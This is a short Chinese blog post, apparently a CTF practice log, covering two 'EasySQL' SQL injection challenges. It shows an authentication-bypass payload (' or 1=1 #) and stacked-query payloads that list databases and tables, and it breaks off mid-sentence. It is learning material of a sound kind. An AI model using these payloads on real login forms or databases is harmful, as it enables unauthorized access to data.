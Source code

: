 ```yaml
---
title: sql 刷题
date: '2025-05-09 09:32:53'
updated: '2025-05-09 09:33:34'
permalink: /post/sql-question-brushing-z1s7uky.html
comments: true
toc: true
---
```




# sql 刷题

### [极客大挑战 2019]EasySQL

这道题一看就是sql注入，进入之后直接就想到刚学的

```
marin' or 1=1 --
```

但是发现无法成功，查找发现在sql中，注释符除了`--`​还有`#`​号

```
marin' or 1=1 #
```

### [SUCTF 2019]EasySQL

这题直接不会orz，查wp发现是不懂的堆叠查询

```
1; show databases;
```

先查数据库

![](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/679219bdd0e0a243d4f7287a.png)

```
1; show tables;
```

接着查表名

![](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/679219ded0e0a243d4f72882.png)

看到了flag，但是flag好像被过滤了

这里后面的就不是很懂，主要是看到的都是猜测后端查询的语句是

```sql
sql=select.post[‘query’]."||flag from Flag"
```

然后输入
